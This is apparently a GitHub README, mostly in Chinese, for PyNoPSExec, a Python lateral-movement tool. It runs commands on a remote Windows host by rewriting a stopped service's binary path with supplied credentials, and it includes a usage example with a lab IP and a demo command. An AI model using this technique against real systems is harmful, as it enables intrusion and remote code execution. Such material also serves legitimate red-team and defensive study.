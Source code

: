 # PyNoPSExec
**A Lateral Movement Tool Learned From SharpNoPSExec  --  Twitter: @juliourena  根据@juliourena大神的SharpNOPsExec项目改写的横向移动工具** 
+ Platform(平台): Windows 10
+ Language(语言): Python2
## 原理简介  

** 通过修改服务启动的二进制文件路径，然后启动服务来执行，对服务的要求是：**
+ 没有运行的手动启动或禁止启动的服务
+ 服务没有依赖项
+ 该脚本没有提供服务二进制文件路径恢复功能，需要先记好对应路径，然后可以再次运行该脚本进行恢复，避免服务出问题
## 使用方法  


```bash
net use \\192.168.23.107 "TestPassword@123" /user:testuser
python PyNoPSexec.py  -t 192.168.23.107 -u testuser -p "TestPassword@123" -d test.sec.com -s AppMgmt -e "c:\\windows\\system32\\cmd.exe /c echo hackedbybobac > c:\\bobac.txt"
```
![image](https://user-images.githubusercontent.com/11972644/117527553-82264700-afff-11eb-9850-45ecbd997f98.png)
![image](https://user-images.githubusercontent.com/11972644/117527633-0bd61480-b000-11eb-955e-d8310d463090.png)


